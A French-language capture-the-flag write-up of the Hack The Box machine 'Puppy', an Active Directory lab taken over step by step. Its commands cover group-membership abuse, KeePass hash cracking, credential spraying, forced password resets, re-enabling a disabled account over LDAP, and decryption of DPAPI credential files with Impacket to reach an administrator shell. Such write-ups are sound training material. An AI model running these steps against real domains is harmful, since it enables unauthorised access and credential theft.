`Puppy` est une machine Windows Active Directory de type assume-breach. Nous commençons donc avec les identifiants `levi.james:KingofAkron2025!`. Je commencerai par énumérer les partages, `Levi.James` n’ayant pas accès au partage `DEV`. Puis une récolte des relation entre les objets du domaine révèle qu’étant membre du groupe `HR`, il possède des privilèges `GenericWrite` sur le groupe `Developers`. En abusant de ces droits, je parviens à accéder au partage `DEV` dans lequel se trouve un fichier chiffré contenant des identifiants `KeepassXC`. Je trouverai alors des identifiants valides de `Ant.Edwards`. Ce dernier a les privilèges `GenericAll` sur `Adam.Silver` qui est désactivé. Après activation du compte `Adam.Silver`, j’abuse alors du privilège `GenericAll` ce qui me permet d’obtenir un shell en tant que ce dernier. Je trouve ensuite une sauvegarde LDAP contenant des identifiants de `Steph.Cooper`. Une fois connecté en tant que `Steph.Cooper`, je réalise une `DPAPI` qui me permet d’obtenir les identifiants de `Steph.Cooper_adm` membre du groupe `Administrators` et d’avoir une shell.

## Énumération
### Nmap

Un simple scan pour avoir les ports ouverts.
```bash
nmap 10.10.11.70 --min-rate 5000 --top-port 3500
```

```bash
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2049/tcp open  nfs
3260/tcp open  iscsi
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

Un scan en profondeur pour avoir plus de détails.
```bash
nmap 10.10.11.70 --min-rate 5000 -sV -sC -p 53,88,111,135,139,389,445,464,593,636,2049,3260,3269,5985
```

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-18 04:05:11Z)
111/tcp  open  rpcbind?
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  mountd        1-3 (RPC #100005)
3260/tcp open  iscsi?
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time:
|   date: 2025-05-18T04:07:05
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
```

J’ajoute ensuite le nom de domaine ainsi que le FQDN dans le fichier `/etc/hosts`.
```bash
echo "10.10.11.70 puppy.htb dc.puppy.htb dc" | tee -a /etc/hosts
```

### SMB - TCP 445

En listant les partages, je vois qu’il existe un nommé `DEV` mais `levi.james` n’y a pas accès.
```bash
nxc smb 10.10.11.70 -u levi.james -p KingofAkron2025! --shares
```



## Shell as Adam.Silver
### Bloodhound

Je récolte les relations entre les différents objets du domaine.
```bash
bloodhound-python -d puppy.htb -u levi.james -p 'KingofAkron2025!' -ns 10.10.11.70 -c all --zip
```



### GenericWrite on Developers group

`levi.james` est membre du groupe `HR`**.**  Ce groupe a le droit `GenericWrite` sur le groupe `Developers` **.**


J’ajoute donc `levi.james` au sein du groupe `developers`.
```bash
net rpc group addmem "developers" "levi.james" -U "puppy.htb"/"levi.james"%'KingofAkron2025!' -S "dc.puppy.htb"
```


Avec la commande suivante, je vérifie qu’il a bien été ajouté. Je vois aussi que ce groupe contient trois autres utilisateurs.
```bash
net rpc group members "developers" -U "puppy.htb"/"levi.james"%'KingofAkron2025!' -S "dc.puppy.htb"
```


Maintenant que `levi.james`, est membre du groupe `developers`, je vois qu’il a accès en lecture au partage `DEV`.
```bash
nxc smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
```



### KeepassXC

Je me connecte au partage et s’y trouve un exécutable `KeepassXC` , un dossier `Projects` vide, ainsi qu’un fichier `recovery.kdbx` contenant surement des identifiants `KeepassXC`.
```bash
smbclient //puppy.htb/DEV -U 'levi.james%KingofAkron2025!'
```


Je vois que le fichier est protégé par un mot de passe.


Avec `keepass2john`, je récupère le hash du fichier. Puis avec `john`, je craque ce hash et je trouve alors le mot de passe `liverpool` .
```bash
keepass2john recovery.kdbx > recovery.hash
john --wordlist=/usr/share/wordlists/rockyou.txt recovery.hash
```


Dans ce fichier se trouvent bel et bien des identifiants.


Je les mets dans des fichiers et je teste les combinaisons valides
```bash
nxc smb 10.10.11.70 -u users.txt -p passwords.txt --continue-on-success
```


Je trouve alors une seule combinaison valide.
```bash
User : ant.edwards
Password : Antman2025!
```


### GenericAll on Adam.Silver

`ant.edwards` est membre du groupe `Senior devs` et possède le privilège `GenericAll` sur `adam.silver` ****. Ce qui luis permet de changer le mot de pase de Adam.Silver.


Je change donc le mot de passe de `adam.silver`.
```bash
net rpc password "adam.silver" "newP@ssword2025" -U "puppy.htb"/"ant.edwards"%'Antman2025!' -S "dc.puppy.htb"
```


### Enable Adam.Silver

En essayant de me connecte en tant qu’`Adam.silver`, je vois que ce compte est désactivé.
```bash
nxc smb 10.10.11.70 -u adam.silver -p 'newP@ssword2025'
```


 Avec `ldapsearch`, je vois bien que la valeur du  `userAccountControl` ****est ****`66050` ****qui est un compte désactivé normal avec l'indicateur défini sur le mot de passe n'expire jamais. `512` est la valeur du `userAccountControl` d’un compte actif.

```bash
ldapsearch -x -H ldap://10.129.219.27 -D "ant.edwards@puppy.htb" -w 'Antman2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=adam.silver)"
```


Pour le réactiver, je ne vais pas le faire avec `bloodyAD` comme je l’ai déjà fais sur d’autres machines, je vais le faire en utilisant une nouvelle méthode que j’avais apprise lorsque je faisais cette machine. Elle consiste à d’abord créer un fichier `.ldif` que je vais nommé `enable-adam.ldif` avec les informations suivantes :
```bash
dn: CN=Adam D. Silver,CN=USERS,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
```

Puis avec l’outil `ldapmodify`, j’active le compte `adam.silver`.
```bash
ldapmodify -x -D "ant.edwards@puppy.htb" -w 'Antman2025!' -H ldap://10.129.219.27 -f enable-adam.ldif
```


`adam.silver` est bien activé. La valeur du `userAccountControl` est bien `512` maintenant.
```bash
ldapsearch -x -H ldap://10.129.219.27 -D "ant.edwards@puppy.htb" -w 'Antman2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=adam.silver)" userAccountControl
```


Avec les scripts, qui réinitialisent tout, je change encore le mot de passe. Cette fois ci, la connexion se fait bien et je vois que je peux avoir une shell avec `evil-winrm`.



### Evil-WinRM

J’obiens alors un shell en tant que `adam.silver`.
```bash
evil-winrm -i 10.129.219.27 -u adam.silver -p 'newP@ssword2025'
```



## Shell as Steph.Cooper
### Backups

A la racine, se trouve un dossier `Backups`, contenant une archive qui semble être celle d’un site web. Je la télécharge sur ma machine.


Puis je la dézippe.


S’y trouve un dossier `puppy` dans lequel se trouve une sauvegarde d’un fichier de configuration LDAP.


S’y trouvent les identifiants de `steph.cooper`.
```bash
user : steph.cooper
password : ChefSteph2025!
```



### Evil-WinRM

Je me connecte ensuite avec `evil-winrm`.


## Shell as Steph.Cooper_adm
### DPAPI

A partir du répertoire personnel de `Steph.Cooper`, je trouve des fichiers contenants des identifiants.
```bash
dir -Force C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\
dir -Force C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
```


Je localise aussi la masterkey.
```bash
dir -Force C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
dir -Force C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```


Je télécharge alors tous ces fichiers sur ma machine.
```bash
download "C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D"
download "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"
download "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"
```


Malgré les erreurs affichées, le téléchargement s’est bien effectué.


Avec le module `dpapi` de `Impacket`, je déchiffre d’abord la masterkey. Ce qui me donne la clé permettant d’accéder au contenu des deux autres fichiers.
```bash
dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password ChefSteph2025!
```


L’un des fichiers contient les identifiants de `steph.cooper_adm`  qui est un membre du groupe `Administrators`.
```bash
dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```



### Evil-WinRM

Les identifiants sont valides et je peux obtenir un shell en tant que `steph.cooper_adm`.
```bash
evil-winrm -i puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
```

